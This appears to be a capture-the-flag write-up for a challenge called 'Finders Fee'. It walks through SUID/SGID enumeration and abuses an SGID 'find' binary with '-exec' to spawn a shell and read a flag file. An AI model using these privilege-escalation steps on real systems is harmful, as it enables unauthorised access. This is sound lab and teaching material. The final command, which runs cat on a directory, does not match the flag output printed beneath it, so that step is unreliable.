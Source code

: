 ## Finders Fee
`ssh -p PORT user@challenge.ctf.games`
**Escalate your privileges and uncover the `flag.txt` in the `finder` user's home directory.**
So we want to obtain `/home/finder/flag.txt`.
Once connected we quickly see there is very limited functionality of the environment, which can make it easier or more difficult. Basic steps usually involve investigating programs and processes that the user can use, potentially running with another user privileges. Sudo is not present for `sudo -l` checks, and `ps aux` returns nothing as well.

Another great way to enumerate is searching the file system for binaries executing with SUID and SGID set, indicating *possible* leverage of another user. Coincidentally, the `find` function is how you can achieve this, and is available as user. It also matches the overall theme of *finding* something.
```sh
find / -perm -2000 -type f 2>/dev/null
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd
/usr/bin/chage
/usr/bin/expiry
/usr/bin/find
/usr/bin/ssh-agent
find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
```
We can then use `ls -la <binary>` to check the privileges when executed. Going with the the **find** theme, lets check it.
```sh
 ls -la /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```
Which tells us `find` is executing with the user `finder` permissions. This is good news, but we need to check if there are exploitation's available utilizing the `find` command. A great resource is [GTFOBins](https://gtfobins.github.io/gtfobins/find/). 
Looking at the examples, it appears as though command execution can be used within the arguments passed to `find`.  For example:
```sh
find . -exec /bin/sh \; -quit
```
This will spawn a shell, but because perm is 2000 we don't inherit the groups permissions, so we are still spawning a shell as user. But, we can also pass other commands instead of /bin/sh. Perhaps we can try to read the flag.txt by modifying the command like so:
```sh
find . -exec cat /home/finder/ \; -quit
flag{5da1de289823cfc200adf91d6536d914}
```
Success! Read further into SUID and SGID exploitation for more details.
